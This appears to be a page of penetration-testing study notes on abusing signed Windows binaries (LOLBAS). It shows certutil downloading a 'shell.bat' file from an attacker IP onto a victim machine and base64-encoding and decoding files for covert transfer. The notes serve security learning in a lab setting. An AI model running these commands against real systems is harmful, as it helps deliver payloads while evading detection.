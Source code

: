 # Miscellaneous Techniques

**Living Off The Land Binaries and Scripts (LOLBAS):** try to use Microsoft-signed file with unusually method which this help to undetectable

**Some interesting functionality may include:**

|                        |                  |                  |
| ---------------------- | ---------------- | ---------------- |
| Code execution         | Code compilation | File transfers   |
| Persistence            | UAC bypass       | Credential theft |
| Dumping process memory | Keylogging       | Evasion          |
| DLL hijacking          |                  |                  |

***

## **Certutil**

&#x20;[certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), whose intended use is for handling certificates but can also be used to transfer files from attacker to victim machine by either downloading a file to disk or base64 encoding/decoding a file.

### **Transferring**

```powershell
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

### **Encoding File**

We can use the `-encode` flag to encode a file using base64 on our Windows attack host and copy the contents to a new file on the remote system. when we can’t move this file

```powershell
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

### **Decoding File**

Once the new file has been created, we can use the `-decode` flag to decode the file back to its original contents.

```powershell
C:\htb> certutil -decode encodedfile file2

Input Length = 70
Output Length = 7
CertUtil: -decode command completed successfully.
```
